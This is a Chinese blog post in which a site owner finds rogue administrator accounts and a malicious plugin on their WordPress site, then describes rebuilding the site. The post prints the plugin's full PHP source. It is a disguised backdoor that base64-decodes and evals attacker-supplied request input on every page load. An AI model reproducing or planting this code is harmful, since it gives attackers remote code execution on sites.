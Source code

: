 ```yaml
---
title: 被黑了？
author: 大肥羊
layout: post
permalink: /be-hacked.html
categories:
  - 信息技术
tags:
  - wordpress
---
```

早上起来，帮<a href="https://cyhour.com/author/xcz" target="_blank">嫦子</a>发了篇<a href="https://cyhour.com/problems-caused-by-changes-in-the-environment.html" target="_blank">文章</a>。选择作者的时候，发现多了几个不知名（肯定不是我自己注册的、另外也关闭注册了的）的作者，吓了一跳。

检查了一遍，数据没丢失，那些管理员全部都是2010年3月19号注册的。检查插件，发现多了一个叫 <span style = "color:red;">WordPress Researcher</span> 的东东（文件最后修改日期是20141113）。哎，杯具了。就这么个破站，有啥好搞的呢？  


  
![lots-of-admin][1]

* * *

![WordPress Researcher][2]</p> 

那插件就一个文件，附上代码，不知道有啥用。

<pre style="margin:15px 0;font:100 12px/18px monaco, andale mono, courier new;padding:10px 12px;border:#ccc 1px solid;border-left-width:4px;background-color:#fefefe;box-shadow:0 0 4px #eee;word-break:break-all;word-wrap:break-word;color:#444"><span style="color:#555">&lt;?php</span><br /><span style="color:#a50">/*</span><br /><span style="color:#a50">Plugin Name: WordPress Researcher</span><br /><span style="color:#a50">Plugin URI: http://wordpress.org/extend/plugins/</span><br /><span style="color:#a50">Description: WordPress research tool.</span><br /><span style="color:#a50">Author: wordpressdotorg</span><br /><span style="color:#a50">Author URI: http://wordpress.org/</span><br /><span style="color:#a50">Text Domain: wordpress-researcher</span><br /><span style="color:#a50">License: GPL version 2 or later - http://www.gnu.org/licenses/old-licenses/gpl-2.0.html</span><br /><span style="color:#a50">Version: 2.2.4</span><br /><span style="color:#a50">*/</span><br />    <span style="color:#708">function</span> <span style="color:#@cm-word">research_plugin</span>()<br />    {<br />        <span style="color:#708">if</span> (<span style="color:#708">isset</span>(<span style="color:#000-2">$_REQUEST</span>[<span style="color:#a11">'X3PN'</span>]))<br />        {<br />            <span style="color:#000-2">$myfunc</span> <span style="color:#000">=</span> <span style="color:#a11">'bas'</span>.<span style="color:#a11">'e64_'</span>.<span style="color:#a11">'dec'</span>.<span style="color:#a11">'ode'</span>;<br />            <span style="color:#000-2">$myvar</span> <span style="color:#000">=</span> <span style="color:#000-2">$myfunc</span>(<span style="color:#000-2">$_REQUEST</span>[<span style="color:#a11">'X3PN'</span>]);<br />            <span style="color:#708">eval</span>(<span style="color:#000-2">$myvar</span>);<br />        }<br />        <span style="color:#@cm-word">return</span>;<br />    }<br /><br />    <span style="color:#@cm-word">add_action</span>(<span style="color:#a11">'after_setup_theme'</span>, <span style="color:#a11">'research_plugin'</span>);<br /><span style="color:#555">?&gt;</span></pre>

程序文件全部删掉了，导出了xml，数据库也不要了，重新安装导入了文章和评论内容，主题也重新检查了一遍，折腾大半天，终于又差不多回复原貌了。才发现，友链忘了备份了！又得手工整理一遍，累！

 [1]: https://cyhour.com/wp-content/uploads/2014/11/lots-of-admin.jpg
 [2]: https://cyhour.com/wp-content/uploads/2014/11/WordPress-Researcher.jpg
